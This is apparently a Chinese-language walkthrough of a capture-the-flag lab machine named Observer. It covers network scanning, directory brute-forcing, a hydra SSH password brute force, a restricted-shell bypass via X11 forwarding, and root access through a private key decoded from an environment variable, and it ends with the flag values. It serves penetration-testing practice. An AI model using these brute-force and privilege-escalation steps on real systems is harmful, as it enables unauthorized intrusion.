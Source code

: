 # 一、信息收集

## 1. 主机发现

首先，使用`arp-scan`在本地网络中发现目标主机。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ sudo arp-scan -l
...
192.168.205.131 08:00:27:e7:c9:11       PCS Systemtechnik GmbH
...
```

确认目标主机IP地址为 `192.168.205.131`。

## 2. 端口扫描

使用 `nmap` 对目标主机进行全端口扫描和服务版本探测。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ nmap -p- -A 192.168.205.131           
Starting Nmap 7.95 ( https://nmap.org )
...
Nmap scan report for 192.168.205.131
Host is up (0.00015s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.62 ((Debian))
MAC Address: 08:00:27:E7:C9:11 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
...
```

扫描结果显示开放了 **22 (SSH)** 和 **80 (HTTP)** 两个端口。

# 二、Web渗透

## 1. 虚拟主机发现

直接访问 `http://192.168.205.131` 显示的是 Apache 的默认页面。通过目录爆破可以获得一些目录信息。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ gobuster dir -u http://192.168.205.131 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,txt,html,zip,db,bak -t 64  
...
/index.html           (Status: 200) [Size: 35742]
/images               (Status: 301) [Size: 319] [--> http://192.168.205.131/images/]
/css                  (Status: 301) [Size: 316] [--> http://192.168.205.131/css/]
/js                   (Status: 301) [Size: 315] [--> http://192.168.205.131/js/]
/fonts                (Status: 301) [Size: 318] [--> http://192.168.205.131/fonts/]
...
```

通过查看`/image`中的图片文件，可以发现，他使用的图片内容貌似是web网站模板的图片，所以猜测可能存在域名。将域名 `Observer.nlx` 绑定到IP。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ sudo vim /etc/hosts

# 在文件末尾添加
192.168.205.131 Observer.nlx
```

## 2. Web信息枚举

访问 `http://Observer.nlx`，网站是一个静态的网页模板。在对网站目录进行爆破后未发现敏感文件，但在主页`index.html`的源码中，“Our Team”部分发现了几个可疑的用户名。


![image-20250810130421280](http://7r1UMPHK.github.io/image/20250810130421538.webp)

从源码中，我们提取到以下潜在用户名：
*   **john**
*   **mike**
*   **remo**
*   **niscal**

# 三、主机渗透与立足点

## 1. SSH爆破

利用上一步发现的用户名列表，结合弱口令字典，对SSH服务进行爆破攻击。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ cat user.txt
john
mike
remo
niscal

┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ hydra -L user.txt -P /path/to/passwords.txt ssh://192.168.205.131 -t 64
...
[22][ssh] host: 192.168.205.131   login: niscal   password: niscal
...
```

成功爆破出用户 `niscal` 的密码为 `niscal`。

## 2. 受限Shell绕过

尝试使用获取的凭证登录SSH。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ ssh niscal@192.168.205.131
niscal@192.168.205.131's password: 

########################################
# Dear person,                         #
# Not now! I'm busy with the terminal. #
# by Niscal                            #
########################################

Connection to 192.168.205.131 closed.
```

登录后连接立即被关闭，并显示一条关键信息 **"I'm busy with the terminal."**。这强烈暗示当前登录的会话不被认为是“真正的终端”，因此被限制脚本拒绝。

## 3. X11转发攻击

根据提示，我们尝试使用SSH的X11转发功能 (`-X` 或 `-Y`) 来请求一个图形化会话，这很可能绕过限制脚本。

```bash
┌──(kali㉿kali)-[~]
└─$ ssh -X niscal@192.168.205.131 
niscal@192.168.205.131's password: 
...
```

![image-20250810125226283](http://7r1UMPHK.github.io/image/20250810125233587.webp)

成功显示，并且显示了下面内容。

```
niscal@observer:~$ echo -n REMOisGOD | passwd remo
```

经过尝试该X11 shell在输入命令回车就会断开。

# 四、权限提升

## 1. 横向移动 (niscal -> remo)

使用显示的用户名`remo`和密码`REMOisGOD`进行登录。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ ssh remo@192.168.205.131
remo@192.168.205.131's password: 
...
remo@observer:~$ id
uid=1001(remo) gid=1001(remo) groups=1001(remo)
```

成功切换到 `remo` 用户。

## 2. 提权至root

在 `remo` 用户下进行信息收集，检查环境变量时发现了一个重大线索。

```bash
remo@observer:~$ env
...
rootKEY=LS0tLS1CRUdJTiBPUEVOU1NIIFBSSVZBVEUgS0VZLS0tLS0K... (此处省略了超长的Base64字符串)
...
```

环境变量 `rootKEY` 包含一个Base64编码的字符串，看起来像是一个SSH私钥。我们将其解码并保存。

```bash
remo@observer:~$ echo 'LS0tLS1...LS0tCg==' | base64 -d > id_rsa
remo@observer:~$ chmod 600 id_rsa
```

使用这个私钥尝试以 `root` 用户身份登录本地SSH服务。

```bash
remo@observer:~$ ssh root@127.0.0.1 -i id_rsa
Warning: Permanently added '127.0.0.1' (ED25519) to the list of known hosts.
root@observer:~# id
uid=0(root) gid=0(root) groups=0(root)
```

成功提权至 `root` 用户！

# 五、获取Flag

现在我们拥有了所有权限，可以读取所有的Flag。

```bash
root@observer:~# cat /root/root.txt
fa40a17de09827a5ae20a894304c6a49

root@observer:~# cat /home/remo/user.txt 
f2edafebb9851d806ff15deb0477ebe8
```

所有Flag均已找到，渗透测试完成。